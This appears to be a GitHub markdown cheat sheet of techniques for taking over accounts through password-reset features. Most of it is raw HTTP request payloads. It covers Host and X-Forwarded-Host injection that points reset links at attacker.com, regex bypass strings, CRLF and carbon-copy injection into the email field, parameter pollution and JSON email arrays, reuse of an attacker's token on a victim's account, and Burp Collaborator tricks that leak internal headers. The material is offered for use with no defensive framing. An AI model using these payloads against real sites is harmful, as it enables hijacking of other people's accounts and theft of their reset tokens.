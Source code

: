 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````


##### Bypassing regex check on the host header
````
- target.com.attacker.com
- attacker.com/target.com
- attacker.com%23@target.com
- attacker.com%25%32%33@target.com


````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json(if the application is sending the email as json, then try sending the email as array)
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
#### Add Email parameter if there isn't email in request of reset/changepass
````
POST /reset/change
Host: target.com


added="email:victim@gmail.com"&token=token


````
### Observing the token that is generated for pass reset.
Send the password reset request link using intruder, so that the time duration between creating tokens is small and observe the difference in part of the pass reset.
Insert payload as  attacker@gmail.com, victim@gmail.com and run the intruder.
`https://infosecwriteups.com/how-i-was-able-to-take-over-any-account-via-the-password-reset-functionality-ef1659f8b481` Read this article.

